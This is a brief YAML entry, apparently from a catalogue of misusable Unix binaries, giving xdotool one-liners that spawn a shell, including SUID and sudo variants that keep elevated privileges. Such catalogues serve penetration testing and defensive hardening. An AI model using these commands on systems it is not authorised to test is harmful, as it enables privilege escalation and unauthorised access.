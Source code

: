 description: This requires a running X server.
functions:
  shell:
    - code: xdotool exec --sync /bin/sh
  suid:
    - code: ./xdotool exec --sync /bin/sh -p
  sudo:
    - code: sudo xdotool exec --sync /bin/sh
---
